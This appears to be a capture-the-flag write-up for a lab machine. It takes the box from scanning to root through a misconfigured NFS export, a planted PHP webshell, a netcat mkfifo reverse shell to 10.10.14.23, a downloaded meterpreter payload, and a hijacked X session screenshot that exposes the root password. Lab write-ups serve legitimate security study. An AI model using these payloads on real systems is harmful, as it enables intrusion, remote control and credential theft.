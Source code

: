 # Recon

All-tcp scan:

```bash
nmap -p- -oA scans/nmap-alltcp 10.10.11.191
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
2049/tcp  open  nfs
43477/tcp open  unknown
44955/tcp open  unknown
45443/tcp open  unknown
57109/tcp open  unknown
```

Detailed scan:
```bash
nmap -p 22,80,111,2049,43477,44955,45443,57109 -sVC -oA scans/nmap-tcpdetail 10.10.11.191

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Built Better
|_http-server-header: Apache/2.4.41 (Ubuntu)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      36934/udp   mountd
|   100005  1,2,3      43477/tcp   mountd
|   100005  1,2,3      50728/udp6  mountd
|   100005  1,2,3      52741/tcp6  mountd
|   100021  1,3,4      41999/tcp6  nlockmgr
|   100021  1,3,4      44955/tcp   nlockmgr
|   100021  1,3,4      51010/udp6  nlockmgr
|   100021  1,3,4      54532/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs_acl  3 (RPC #100227)
43477/tcp open  mountd   1-3 (RPC #100005)
44955/tcp open  nlockmgr 1-4 (RPC #100021)
45443/tcp open  mountd   1-3 (RPC #100005)
57109/tcp open  mountd   1-3 (RPC #100005)
```

Endpoint enumeration:
```bash
301      GET         313c http://10.10.11.191/images => http://10.10.11.191/images/
200      GET        6121c http://10.10.11.191/images/icon-2.png
200      GET        1443c http://10.10.11.191/images/search-icon.png
200      GET        3248c http://10.10.11.191/css/owl.carousel.min.css
200      GET      140421c http://10.10.11.191/css/bootstrap.min.css
200      GET       87088c http://10.10.11.191/js/jquery.min.js
200      GET       70808c http://10.10.11.191/js/bootstrap.bundle.min.js
200      GET       45479c http://10.10.11.191/js/jquery.mCustomScrollbar.concat.min.js
200      GET      348226c http://10.10.11.191/images/img-5.png
301      GET         310c http://10.10.11.191/css => http://10.10.11.191/css/
301      GET         309c http://10.10.11.191/js => http://10.10.11.191/js/
200      GET        7381c http://10.10.11.191/css/normalize.css
200      GET       11416c http://10.10.11.191/css/default-skin.css
200      GET        1884c http://10.10.11.191/css/slick.css
200      GET        3653c http://10.10.11.191/css/nice-select.css
200      GET       11752c http://10.10.11.191/css/responsive.css
200      GET       11324c http://10.10.11.191/js/jquery-3.0.0.min.js
200      GET        9868c http://10.10.11.191/js/custom.js
200      GET       25871c http://10.10.11.191/css/bootstrap-reboot.min.css.map
200      GET       28977c http://10.10.11.191/css/bootstrap-grid.min.css
200      GET       14143c http://10.10.11.191/css/jquery.fancybox.min.css
200      GET       28414c http://10.10.11.191/css/icomoon.css
200      GET       31000c http://10.10.11.191/css/font-awesome.min.css
200      GET       37644c http://10.10.11.191/css/bootstrap-grid.css
200      GET       19190c http://10.10.11.191/js/popper.min.js
200      GET       68240c http://10.10.11.191/css/bootstrap-grid.min.css.map
200      GET       53678c http://10.10.11.191/css/animate.min.css
200      GET       97570c http://10.10.11.191/css/bootstrap-grid.css.map
200      GET      172839c http://10.10.11.191/css/bootstrap.css
200      GET      557893c http://10.10.11.191/css/bootstrap.min.css.map
200      GET      918708c http://10.10.11.191/js/plugin.js
200      GET        1803c http://10.10.11.191/images/fb-icon.png
200      GET        6788c http://10.10.11.191/images/icon-3.png
200      GET        5016c http://10.10.11.191/images/logo.png
200      GET        4908c http://10.10.11.191/images/icon-1.png
200      GET        2120c http://10.10.11.191/images/instagram-icon.png
200      GET        1384c http://10.10.11.191/images/quote-icon.png
200      GET        1864c http://10.10.11.191/images/twitter-icon.png
200      GET        5412c http://10.10.11.191/images/footer-logo.png
200      GET        1077c http://10.10.11.191/images/left-arrow.png
200      GET        5303c http://10.10.11.191/images/icon-4.png
200      GET        1996c http://10.10.11.191/images/linkedin-icon.png
200      GET       19394c http://10.10.11.191/css/style.css
200      GET       56444c http://10.10.11.191/images/img-7.png
200      GET       50898c http://10.10.11.191/images/img-8.png
200      GET      264731c http://10.10.11.191/images/img-4.png
200      GET      168650c http://10.10.11.191/images/header-bg.png
200      GET      598555c http://10.10.11.191/images/img-1.png
200      GET      377261c http://10.10.11.191/images/img-6.png
200      GET      579224c http://10.10.11.191/images/bg-1.png
200      GET      608271c http://10.10.11.191/images/img-2.png
200      GET      549018c http://10.10.11.191/images/img-9.png
200      GET     2108554c http://10.10.11.191/images/banner-bg.png
200      GET        1063c http://10.10.11.191/images/right-arrow.png
200      GET        4800c http://10.10.11.191/css/bootstrap-reboot.css
200      GET        3842c http://10.10.11.191/css/meanmenu.css
200      GET       32532c http://10.10.11.191/index.html
200      GET       35973c http://10.10.11.191/css/jquery-ui.css
200      GET       42839c http://10.10.11.191/css/jquery.mCustomScrollbar.min.css
200      GET        3937c http://10.10.11.191/css/bootstrap-reboot.min.css
200      GET       59714c http://10.10.11.191/css/bootstrap-reboot.css.map
200      GET      482108c http://10.10.11.191/images/img-3.png
200      GET       32532c http://10.10.11.191/
200      GET      425225c http://10.10.11.191/css/bootstrap.css.map
200      GET     1901591c http://10.10.11.191/images/contact-bg.png
403      GET         277c http://10.10.11.191/server-status
```

# Shell as alex
We can see a network share on port 2049.

```bash
showmount -e 10.10.11.191
Export list for 10.10.11.191:
/home/ross    *
/var/www/html *
```

We mount it under /tmp/nfs:

```bash
sudo mount -t nfs 10.10.11.191:/ ./nfs -o nolock
```

We quickly notice, that /var/www/html share is not accessible with
our current permissions. But, if the NFS is misconfigured, we can
impersonate user that has permissions to read and write to folder.

We check who owns it:

```bash
ls -ald html/
drwxr-xr--@ - 2017 22 Aug 02:40 html
```

We see it's a user with uid 2017. We can modify /etc/passwd
and set the uid of our user to this number. After launching new shell
with our new uid, we can access the directory for reading and writing.

Since we know that this directory is most likely the same we are
accessing via web application on port 80, and we have write permission
to it now, we can plant a php webshell inside and access it from the site:

```bash
kali@kali /t/n/v/w/html> nvim shell.php
kali@kali /t/n/v/w/html> ls
css/  images/  index.html  js/  shell.php
kali@kali /t/n/v/w/html> cat shell.php 
<?php system($_GET['cmd']); ?>
```

Back to the site, we can successfuly run commands:

![](images/shell.png)

In order to get reverse shell, we tried some bash shells
from revshells.com, but they didn't seem to work. Instead,
nc mkfifo shell worked:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.23 9001 >/tmp/f
```

After urlencoding it and sending it to our php webshell, we successfuly
obtain shell as user alex.

# Shell as root

First, in order to upgrade our shell, we will create meterpreter payload:

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.23 -f elf -o backupjob LPORT=9002
sudo python -m http.server 80
```

Then we run msfconsole and type:
```bash
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
lport => 8080
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
```

On target machine:
```bash
wget http://10.10.14.23/backupjob
chmod +x backupjob
./backupjob
```

Back to the files we extracted from NFS share, there are also files
belonging to other user with id of 1001; we change our id in /etc/passwd 
once again and successfuly retrieve them. Particularly interesting are
xorg files, because they mean that probably someone is logged in. 

We are interested in two files:

```
.Xauthority
.xsession-errors
```

.Xauthority contains a session cookie with which we can authenticate to
the session, and .xsession-errors can give us useful information about the session.

First we use python server to transport .Xauthority file to target machine, and point
the environmental variable to it:

```bash
export XAUTHORITY=/home/alex/.Xauthority
```

We want to take a screenshot in order to see what is on the logged-in user screen.
We can do that using xwd command. It will look like that:

```bash
xwd -root -screen -silent -display <display> > /tmp/screen.xwd
```

As we can see, we will need the display id in order to execute it:

```bash
cat xsession-errors
...
dbus-update-activation-environment: setting DISPLAY=:0
...
```

We run the command:

```bash
xwd -root -screen -silent -display <display> > /tmp/screen.xwd
```

Then we use our meterpreter session to download the file (python server should also work):

```bash
download /tmp/screen.xwd
```

After that, we can see root password in plaintext on the acquired screenshot.
We su as root, and read the flag.
